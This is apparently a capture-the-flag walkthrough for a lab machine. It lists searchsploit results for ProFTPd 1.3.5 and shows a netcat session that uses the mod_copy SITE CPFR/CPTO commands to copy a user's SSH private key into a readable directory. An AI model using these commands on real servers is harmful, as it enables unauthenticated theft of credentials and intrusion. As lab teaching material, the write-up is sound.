 ~~~
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                           | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                     | linux/remote/36742.txt
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~

Answer: `3` exploits are found.

## #3.3

**Instructions**

You should have found an exploit from ProFtpd's [mod_copy](http://www.proftpd.org/docs/contrib/mod_copy.html) module. 

The mod_copy module implements `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

**Answer**

No answer needed here.

## #3.4

**Instructions**

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

![""LajBhh2.png](files/LajBhh2.png)

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

**Answer**

Let's connect to the FTP service and copy the SSH private key to `/var/tmp/`:

~~~
$ nc 10.10.139.109 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.139.109]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
quit
221 Goodbye.
^C
~~~
